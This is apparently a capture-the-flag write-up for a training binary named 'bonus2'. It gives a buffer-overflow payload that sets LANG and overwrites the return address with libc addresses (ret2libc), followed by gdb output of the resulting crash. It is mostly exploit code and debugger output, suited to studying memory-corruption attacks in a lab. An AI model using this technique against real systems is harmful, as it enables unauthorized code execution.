 BONUS_2:
# 📚 Exploiting bonus2

## payloads
```sh
export LANG=fi
./bonus2 $(python -c 'print "A"*40') $(python -c 'print "A"*18 + "\x60\xb0\xe6\xb7"+ "BBBB"+ "\x58\xcc\xf8\xb7"')
```

Program received signal SIGSEGV, Segmentation fault.
0x08048600 in main ()
(gdb) x/s $esp+0x1c
0xbffff3bc:	 'A' <repeats 30 times>, "`\260\346\267BBBBX\314\370\267"
(gdb) x/4x $esp+0x68
0xbffff408:	0x41	0x41	0x41	0x41
(gdb) x/i $eip
=> 0x8048600 <main+215>:	add    %al,(%eax)
